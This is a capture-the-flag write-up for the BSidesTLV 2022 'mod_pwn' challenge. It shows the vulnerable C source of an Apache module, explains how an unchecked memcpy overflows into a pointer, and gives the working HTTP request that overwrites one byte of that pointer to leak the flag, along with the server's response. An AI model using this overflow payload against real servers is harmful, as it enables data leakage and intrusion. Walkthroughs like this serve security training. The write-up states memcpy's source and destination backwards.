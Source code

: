 # BSides TLV CTF 2022 - [https://ctf22.bsidestlv.com/](https://ctf22.bsidestlv.com/)
Pwn, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)

Attached file [mod_pwn.tar.gz](./mod_pwn.tar.gz) 

## mod_pwn Solution

By extracting the tar.gz file we can the following files:
```console
┌─[evyatar@parrot]─[/ctf/2022_bsidestlv/pwn/mod_pwn]
└──╼ $ tree
.
├── Dockerfile
├── httpd.conf
├── Makefile
├── mod_pwnable.c
├── mod_pwnable.so
└── mod_pwn.tar.gz

0 directories, 6 files
```

By observing the source code we can see the flag on the static variables:
```c
...
#define ERR_NAME_TOO_LONG -1
#define MAX_NAME_SIZE 128 
const char flag[] = "BSidesTLV2022{n4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}}";
const char footer[] = "\n<hr /> can u pwn me?\n\n";
...
```

We can see also the following function:
```c
static int pwnable_handler(request_rec *r)
{
    /* Init welcome object */
    welcome_msg_obj welcome_msg;
    memset(&welcome_msg, NULL, sizeof(welcome_msg));
    welcome_msg.suffix = &footer;
    strcpy(welcome_msg.color, "blue");

    /* Set the appropriate content type */
    ap_set_content_type(r, "text/html");
    
    /* Verify HTTP request method */
    if (strcmp(r->method, "GET") == OK) {
        ap_rputs("<h1>BSidesTLV 2022 Apache module!</h1> <br/>", r);
        if (r->args) {
            fetch_name_param(r, &welcome_msg.name);
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
        else {
             ap_rprintf(r, "<form>\n");
             ap_rprintf(r, "Enter your name: <input type='text' name='name'> -> <input type='submit' />\n");
             ap_rprintf(r, "</form>\n");
        }
    }
    return OK;
}
```

As we can see, ```welcome_msg.suffix``` get the address of ```footer``` which locate on the memory near the flag.

Next, We can see [Buffer Overflow](https://ctf101.org/binary-exploitation/buffer-overflow/) on ```fetch_name_param``` function:
```c
static void fetch_name_param(request_rec *r, char *out) {
    char *name = &r->args[5]; // skipping the "?name=" prefix
    if(strlen(name) > sizeof(welcome_msg_obj)) {
        char *msg = apr_palloc(r->pool, MAX_NAME_SIZE); // CTF Note: The way `apr_palloc` works should NOT be a concern when trying to solve this challenge. Treat it as if it was a traditional `malloc` call.
        sprintf(msg, "Error, name too long: %.16s...", name);
        raise_error(ERR_NAME_TOO_LONG, out, msg); 
    } else {
        memcpy(out, name, strlen(name));
    }
    ap_unescape_urlencoded(out);
}
```

The function doesn't check the length of ```name``` before calling to ```memcpy``` function.

```memcpy``` get three params, ```out``` which is ```welcome_msg.name``` which is the source, ```name``` which is the user input as dest, and the length of ```name```.

```welcome_msg_obj``` struct is:
```c
typedef struct _welcome_msg_obj {
    char name[MAX_NAME_SIZE];
    char *suffix;
    char color[32];
} welcome_msg_obj;
```

We can see that ``name``` locate before ```suffix``` on the memory, Meaning that we can overwrite the ```suffix``` variable.

Because ```suffix``` locate close to the ```flag``` on the memory we can overwrite the last byte of ```suffix``` to make ```suffix``` point to the ```flag``` variable.

We can imagine this like that in the memory:
```
...
&flag	0x006b7b3c
&footer	0x006b7b78 
...
```

Because we can overwrite ```suffix``` variable (which point to the address of ```footer```) we can make ```suffix``` to point on the flag.

```suffix``` varbile is print to the page on  ```pwnable_handler``` function:

```c
static int pwnable_handler(request_rec *r)
{
    ...
            ap_rprintf(r, "Welcome, <font color='%s'>%s</font> \n<br />\n%s", welcome_msg.color, welcome_msg.name, welcome_msg.suffix);
        }
    ...
    return OK;
}
```

So we just need to send ```128``` bytes to fill ```name``` array and then we need to send another byte to overwrite the last byte of ```suffix``` to get the flag.

Because we don't know what is the flag size we need to do a type of brute force.

After a few guessing, we found the character ```+``` is the offset between ```suffix``` to ```flag```.

We can get the flag by sending the following HTTP request:
```HTTP
GET /ctf?name=yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy+ HTTP/2
Host: mod-pwn.ctf.bsidestlv.com
Cookie: bsidestlv-ctf-session=5fb7eed40a3353355d5070baf624f3df|6249ddd6c7fc469ba9a96304f8d57c7b
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mod-pwn.ctf.bsidestlv.com/ctf
Accept-Encoding: gzip, deflate
Accept-Language: he-IL,he;q=0.9,en-US;q=0.8,en;q=0.7


```

Response:
```
HTTP/2 200 OK
Date: Sat, 02 Jul 2022 22:19:55 GMT
Content-Type: text/html
Content-Length: 280
Set-Cookie: bsidestlv-ctf-session=ed0838bcfaa56e3df80f9b6edceb7d6d|6249ddd6c7fc469ba9a96304f8d57c7b; Max-Age=360; Path=/; Secure; HttpOnly
Strict-Transport-Security: max-age=15724800; includeSubDomains

<h1>BSidesTLV 2022 Apache module!</h1> <br/>Welcome, <font color='blue'>yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy ao
</font> 
<br />
BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}
```

And we get the flag ```BSidesTLV2022{pwn4g3_0v3r_http_i5_n3x7_g3n_h4ck1ng_pewpew}```.
